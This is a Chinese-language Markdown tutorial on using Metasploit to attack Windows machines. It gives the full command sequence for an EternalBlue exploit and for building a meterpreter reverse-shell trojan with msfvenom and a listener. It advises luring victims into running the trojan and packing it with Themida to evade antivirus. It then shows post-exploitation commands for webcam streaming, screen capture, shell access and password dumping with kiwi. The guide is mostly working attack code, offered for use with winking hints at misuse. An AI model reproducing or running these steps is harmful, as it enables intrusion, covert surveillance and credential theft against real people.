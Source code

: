 # Metasploit 渗透工具

https://www.metasploit.com/

kali中打开终端 & 输入 `msfconsole`

![](./images/02-Metasploit-1706774645060.png)

msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit攻击永恒之蓝流程

```shell
msfconsole

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 172.18.48.xxx
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.18.48.236 LPORT=10000 -f exe -o demo.exe

# 2、主控端 -- 开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 172.18.48.236
set LPORT 10000
# 等待目标靶机上线
run

# 3、等待对方触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...
![](./images/02-Metasploit-1706780924800.png)
![](./images/02-Metasploit-1706780945530.png)

然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿
![](./images/02-Metasploit-1706781104773.png)

然后就可以控制目标靶机进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help

# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream

# 截屏
screenshare

# 执行各种命令
shell

# kiwi抓取密码 -- 我这里测试失败
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```

![](./images/02-Metasploit-1706781339305.png)
